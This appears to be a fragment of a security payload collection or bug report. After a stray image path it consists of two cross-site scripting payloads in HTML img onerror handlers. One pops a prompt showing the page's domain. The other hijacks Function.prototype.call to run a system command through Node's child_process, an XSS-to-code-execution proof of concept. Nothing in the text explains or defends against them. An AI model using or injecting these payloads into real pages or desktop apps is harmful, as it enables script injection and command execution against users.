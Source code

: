 <img src=x onerror=prompt(document.domain)>

<img src onerror="Function.prototype.call=function(process){
process.mainModule.require('child_process').execSync('calc');
}
location.reload();">
